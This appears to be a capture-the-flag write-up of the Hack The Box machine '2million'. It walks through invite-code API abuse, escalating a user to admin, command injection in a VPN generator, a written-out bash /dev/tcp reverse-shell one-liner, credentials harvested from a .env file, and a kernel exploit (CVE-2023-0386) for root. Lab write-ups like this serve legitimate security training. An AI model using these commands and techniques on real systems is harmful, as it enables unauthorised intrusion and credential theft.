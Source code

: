 # Network
There are two `TCP` ports are open

	- 22 : ssh is running and not vulnerable to Rce
	- 80 : on 80 `2million.htb` is hosted which is old version of HTB
# Web
There is old version of htb is running on port 80
Nothing special found on home page except `JOIN NOW` page which is redirecting us to `/invite` page
	
 ![Screenshot from 2023-09-22 10-25-05](https://github.com/iammR0OT/HTB/assets/74102381/497c590a-68f8-4eba-bb49-02497ee743ef)

On invite page it is asking about some kind of `invite code` which we didn't have any
	
 ![Screenshot from 2023-09-22 10-26-22](https://github.com/iammR0OT/HTB/assets/74102381/1bf0dea8-f336-40a0-8c27-88629a9a8964)

Lets check the source code of it and the network tab that which files is it requesting while loading the page
In source code we found interesting file path called `/js/inviteapi.js`
	
 ![Screenshot from 2023-09-22 10-29-47](https://github.com/iammR0OT/HTB/assets/74102381/1082a6cb-8141-4135-b8e9-21c538f92969)

There are some functions present in this file
	
 ![Screenshot from 2023-09-22 10-31-38](https://github.com/iammR0OT/HTB/assets/74102381/f8d2a165-6d72-4d5c-930b-00b09b422c93)

Lets beautify the JS code using `jsbeautifier`
We found two function in that code 
	one is for **verifyInvideCode** which is probably taking the invite code and checking it on server side if it is valid or not
	and the second one is **makeInviteCode** which is requesting `/api/v1/invite/how/to/generate` api and creating a invitation code  
	
 ![Screenshot from 2023-09-22 10-32-57](https://github.com/iammR0OT/HTB/assets/74102381/9780e2c6-43cf-4341-ba0f-2c7de00cca98)

Lets hit this api and check if it allow us to generate code without any authentication
We will use `curl` and `jq` 
	Curl for making POST request and jq for josn data reading it is basically json parser
	We will use command `curl -X POST "http://2million.htb/api/v1/invite/how/to/generate" | jq .`
	We got some Encrypted data and the encryption type which is `ROT13`
	
 ![Screenshot from 2023-09-22 10-42-22](https://github.com/iammR0OT/HTB/assets/74102381/6bdca938-6798-435c-8cfd-c4742a965339)

After decryption we get a path saying that to it generate a key we have to request to `/api/v1/invite/generate` api
	
 ![Screenshot from 2023-09-22 10-44-13](https://github.com/iammR0OT/HTB/assets/74102381/cb2fc858-98b3-438f-9716-8d0476d348f0)

After requesting we got a session cookie base64 encoded, after decoding that we found a valid invite code `396E7-KEQJT-2896J-C7UC7`
	
 ![Screenshot from 2023-09-22 10-47-43](https://github.com/iammR0OT/HTB/assets/74102381/55fa964d-8210-4732-83fc-e170417ea29e)

Now we have Invite code lets insert code and found what's next
We found Registration page, Lets register as a admin user
	
 ![Screenshot from 2023-09-22 10-50-32](https://github.com/iammR0OT/HTB/assets/74102381/5561b551-48a4-4832-8642-0330752aa4ae)

Now we login as a admin user, let see what things we can do here
Wo here are 3 pages that we can look at
	/changelog
	/rule
	/access
	
 ![Screenshot from 2023-09-22 11-13-58](https://github.com/iammR0OT/HTB/assets/74102381/b73b0f2d-c2fb-4bb4-a552-33e1598f261b)

In access page there is vpn regenerate functionality which is requesting `/api/v1/user/vpn/regenerate` to regenerate vpn
Lets look at this in burpsuite
When we test the api and move back to the directory one by one we discover some endpoints in `/api/v1` 
	
 ![Screenshot from 2023-09-22 11-19-00](https://github.com/iammR0OT/HTB/assets/74102381/f074a18a-0131-4592-9048-94ed48d0b868)
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/0b8cbf2c-fb9c-4b54-a43b-4b571c37231f)

There are 3 interesting endpoints
	api/v1/admin/settings/update
	api/v1/admin/auth
	api/v1/admin/vpn/generate
Lets request to `api/v1/admin/settings/update`
We update the our simple user to admin using `/api/v1/admin/settings/update` endpoint
	I face some errors like
		**Invalid content type**: i resolve this by changing the **Content-Type:** header to **application/json** which means the the content will be in the form of json
		**Missing parameter email**: i resolve this by adding {"email":"admin@gmail.com"} which is email account i used to login as a user on machine
		**Missing parameter is_admin**: I resolve this by adding {"is_admin":1} which means it is an admin account
	
 ![Screenshot from 2023-09-22 11-38-32](https://github.com/iammR0OT/HTB/assets/74102381/77119d9c-e915-4479-b13f-7f156039637c)

	Using curl
	
 ![Screenshot from 2023-09-22 12-00-35 1](https://github.com/iammR0OT/HTB/assets/74102381/71dea82b-1454-48d7-9390-ca3b7327a0e6)

Now successfully our user becomes an admin on the machine 
Lets look at the `/api/v1/admin/vpn/generate`, which is generating vpn for admin user 
	While requesting that endpoint i face an error that the username parameter is missing. so i resolve this by adding` {"username":"admin"}`
And its generating vpn maybe there will be a bash command is running in the background 
Lets try to command injection in this
I found a successful command injection in the vpn generator field
	
 ![Screenshot from 2023-09-22 11-58-09](https://github.com/iammR0OT/HTB/assets/74102381/c70407e0-7fc2-40a9-9e90-4e3fce62b036)

# User found
Now we found command injection in password generator field lets try simple reverse shell in it  
	`bash -c 'bash -i >& /dev/tcp/10.10.14.56/9001 0>&1'`
	We got a shell
		
  ![Screenshot from 2023-09-22 12-04-22](https://github.com/iammR0OT/HTB/assets/74102381/2c18f914-dce5-4443-a82e-8664acfa4f8b)

	Wet make a shell stable using tty shell
		`python3 -c 'import pty;pty.spawn("/bin/bash")'`
		Using **CTRL+Z** making it background process and the using `stty raw -echo;fg` to make it foreground now whenever we need shell back we simply write this. this will get our shell back
		
  ![Screenshot from 2023-09-22 12-12-36](https://github.com/iammR0OT/HTB/assets/74102381/99390556-2e3e-49d0-b334-55dc29095ac4)

		Then `**export TERM=xterm**`
Now we login as WWW-data but we didn't have user shell lets enumerate the machine
After some enumeration i found file called database.php lets look into it if we found any database credentials in it
We found that mysql is running from that file
In **.env** file i found database credentials

![Screenshot from 2023-09-22 12-19-09 1](https://github.com/iammR0OT/HTB/assets/74102381/753114ae-4f03-4cb7-83d4-883da6684e78)

	DB_USERNAME=admin
	DB_PASSWORD=SuperDuperPass123
Now we have credentials lets try to login using ssh if that incorrect we will enumerate mysql database and we successfully login into **admin user** account
	
 ![Screenshot from 2023-09-22 12-21-44](https://github.com/iammR0OT/HTB/assets/74102381/5eb9d856-0114-4906-8d7e-9579b464f271)

Lets capture the user flag
	user = **6d7227a1f473d6204ea181aa99bc41e2**
# Privesc
Lets move to the privesc part
Lets enumerate the whole file system and find out what files are accessible by user admin 
	`find / -user admin 2>/dev/null | grep -v '^/run\|^/proc\|^/sys'` to check files except run folder, proc folder and sys folder
I found that there is a mail file accessible by admin user
	
 ![Screenshot from 2023-09-22 12-45-09](https://github.com/iammR0OT/HTB/assets/74102381/4586d010-f440-4a07-91d2-d2e3190b4b84)

The email is telling to admin that the kernel is outdated and vulnerable to **OverlayFS / FUSE**

![Screenshot from 2023-09-22 12-46-49](https://github.com/iammR0OT/HTB/assets/74102381/4928166f-f540-4fc8-bb5e-b477c06d1af0)

Lets explore it
It is kernel level exploit we just need to run cve files and it will give us root shell
	[refrence](https://github.com/xkaneiki/CVE-2023-0386/tree/main)
Root = **ef3883404d27fcad5ab69a9138eeeb64**

# Happy Hacking ❤

